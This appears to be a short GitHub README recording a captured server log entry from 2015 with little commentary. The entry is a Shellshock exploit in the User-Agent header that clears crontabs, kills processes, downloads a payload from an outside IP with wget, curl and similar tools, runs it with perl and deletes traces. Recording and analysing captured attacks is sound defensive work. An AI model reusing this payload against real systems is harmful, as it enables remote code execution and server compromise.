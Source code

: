 # virus-3-10-15-Tap-Serv
This is what was in the tab:
```
31.184.194.114 - - [08/Mar/2015:22:35:05 -0500] "GET HTTP/1.1 HTTP/1.1" 400 304 "-" "() { :;};/usr/bin/perl -e 'print \"Content-Type: text/plain\\r\\n\\r\\nXSUCCESS!\";system(\"crontab -r;killall -9 php perl; cd /tmp/ ; mkdir gnu-bash-max-races ; cd /tmp/gnu-bash-max-races ; wget http://64.32.12.152/gnu-bash-max-race ; lwp-download http://64.32.12.152/gnu-bash-max-race ; fetch http://64.32.12.152/gnu-bash-max-race ; curl -O http://64.32.12.152/gnu-bash-max-race ; perl gnu-bash-max-race;cd /tmp/;rm -rf max*\");'"
```
## Notes:
**jobresultcleanup**
* Nothing in it
